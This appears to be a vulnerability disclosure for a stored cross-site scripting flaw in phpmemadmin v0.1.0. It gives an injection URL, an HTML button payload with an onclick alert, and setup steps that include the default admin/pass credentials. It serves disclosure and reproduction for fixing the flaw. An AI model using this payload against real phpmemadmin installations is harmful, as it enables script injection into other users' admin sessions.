

# PRODUCT
name:phpmemadmin
version:v0.1.0
url:https://github.com/clickalicious/phpmemadmin/tree/v0.1.0

# payload 

```
http://127.0.0.1:9999/index.php?action=4&host=127.0.0.1:11211&set=111&value=111<button onclick=alert`111`>111</button>
```

# step to triger the vuln
#install 
### download
git clone https://github.com/clickalicious/phpmemadmin

### composer install
composer install

### cfg
cd app
cp .config.dist .config

### cfg file
```
{
  "username": "admin",
  "password": "pass",
  "timeout": -1,
  "cluster": {
    "name": "Cluster",
    "thresholds": {
        "notice": 50,
        "warning": 75,
        "error": 95
    },
    "hosts": [
      {
        "host": "127.0.0.1",
        "port": 11211
      }
    ]
  },
  "render": {
    "auto": true
  },
  "format": {
    "date": "Y-m-dTH:i:s"
  },
  "updatecheck": false
}


```

### run
cd web 
php -S 127.0.0.1:9999

### login
access 27.0.0.1:9999
401 login
admin/pass

### triger vuln
go to data
click `Create new key/value pair`
key 111
ok 
value
```
111<button onclick=alert`111`>111</button>
```

### vuln triger
[](./img/1.png)